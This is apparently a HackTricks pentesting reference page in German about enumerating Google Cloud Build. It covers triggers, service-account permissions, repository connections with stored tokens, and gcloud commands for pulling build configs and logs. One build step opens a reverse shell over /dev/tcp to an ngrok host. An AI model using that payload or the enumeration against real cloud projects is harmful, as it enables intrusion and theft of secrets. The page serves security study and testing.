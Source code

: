 # GCP - Cloud Build Enum

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys einreichen.

</details>

## Grundlegende Informationen

Google Cloud Build ist eine verwaltete CI/CD-Plattform, die den **Software-Build- und Release-Prozess automatisiert**, sich mit **Quellcode-Repositories integriert** und eine Vielzahl von Programmiersprachen unterstützt. Es ermöglicht Entwicklern, Code automatisch zu **erstellen, zu testen und bereitzustellen**, während es Flexibilität bietet, Build-Schritte und Workflows anzupassen.

Jeder Cloud Build Trigger ist **mit einem Cloud-Repository verbunden oder direkt mit einem externen Repository verknüpft** (Github, Bitbucket und Gitlab).

{% hint style="success" %}
Ich konnte keine Möglichkeit sehen, den Github/Bitbucket-Token von hier oder von Cloud-Repositories zu stehlen, da beim Herunterladen des Repositories über eine [https://source.cloud.google.com/](https://source.cloud.google.com/) URL zugegriffen wird und Github nicht vom Client aus aufgerufen wird.
{% hint %}

### Ereignisse

Der Cloud Build kann ausgelöst werden, wenn:

* **Ein Push auf einen Branch erfolgt**: Branch angeben
* **Ein neues Tag gepusht wird**: Tag angeben
* **Pull-Request**: Branch angeben, der den PR erhält
* **Manuelle Auslösung**
* **Pub/Sub-Nachricht**: Thema angeben
* **Webhook-Ereignis**: Es wird eine HTTPS-URL freigegeben und die Anfrage muss mit einem Geheimnis authentifiziert werden

### Ausführung

Es gibt 3 Optionen:

* Ein yaml/json, das die auszuführenden Befehle angibt. Normalerweise: `/cloudbuild.yaml`
* Nur einer, der "inline" im Web-Portal und in der Befehlszeile angegeben werden kann
* Gängigste Option
* Relevant für nicht authentifizierten Zugriff
* Ein **Dockerfile** zum Erstellen
* Ein **Buildpack** zum Erstellen

### SA-Berechtigungen

Der **Service Account hat den `cloud-platform`-Bereich**, sodass er **alle Berechtigungen verwenden kann**. Wenn **kein SA angegeben ist** (wie beim Ausführen von submit), wird der **Standard-SA** `<proj-number>@cloudbuild.gserviceaccount.com` **verwendet**.

Standardmäßig werden keine Berechtigungen erteilt, aber es ist recht einfach, einige zu erteilen:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Genehmigungen

Es ist möglich, einen Cloud Build so zu konfigurieren, dass **Genehmigungen für Build-Ausführungen erforderlich sind** (standardmäßig deaktiviert).

### Verbindungen & Repositories

Verbindungen können über folgende erstellt werden:

* **GitHub:** Es wird eine OAuth-Aufforderung angezeigt, die um Berechtigungen bittet, um **einen Github-Token zu erhalten**, der im **Secret Manager** gespeichert wird.
* **GitHub Enterprise:** Es wird gefragt, ob ein **GithubApp** installiert werden soll. Ein **Authentifizierungstoken** von Ihrem GitHub Enterprise-Host wird erstellt und in diesem Projekt als **Secret Manager**-Geheimnis gespeichert.
* **GitLab / Enterprise:** Sie müssen den API-Zugriffstoken und den Lese-API-Zugriffstoken bereitstellen, die im **Secret Manager** gespeichert werden.

Sobald eine Verbindung hergestellt wurde, können Sie sie verwenden, um **Repositories zu verknüpfen, auf die das Github-Konto Zugriff hat**.

Diese Option ist über die Schaltfläche verfügbar:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Beachten Sie, dass mit dieser Methode verbundene Repositories **nur in Triggern der 2. Generation verfügbar sind**.
{% hint %}

### Repository verknüpfen

Dies ist nicht dasselbe wie eine **`Verbindung`**. Dies ermöglicht **unterschiedliche** Möglichkeiten, auf ein Github- oder Bitbucket-Repository zuzugreifen, **erstellt jedoch kein Verbindungsobjekt, sondern ein Repository-Objekt (der 1. Generation).**

Diese Option ist über die Schaltfläche verfügbar:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Speicher

Manchmal wird Cloud Build **einen neuen Speicherplatz generieren, um die Dateien für den Trigger zu speichern**. Dies geschieht beispielsweise im Beispiel, das GCP anbietet mit:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Ein Speicherbucket namens [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) wird erstellt, um eine `.tgz`-Datei mit den zu verwendenden Dateien zu speichern.

### Shell erhalten
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeration

Sie könnten **sensible Informationen in Build-Konfigurationen und Protokollen** finden.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Privilege Escalation

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Unauthenticated Access

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
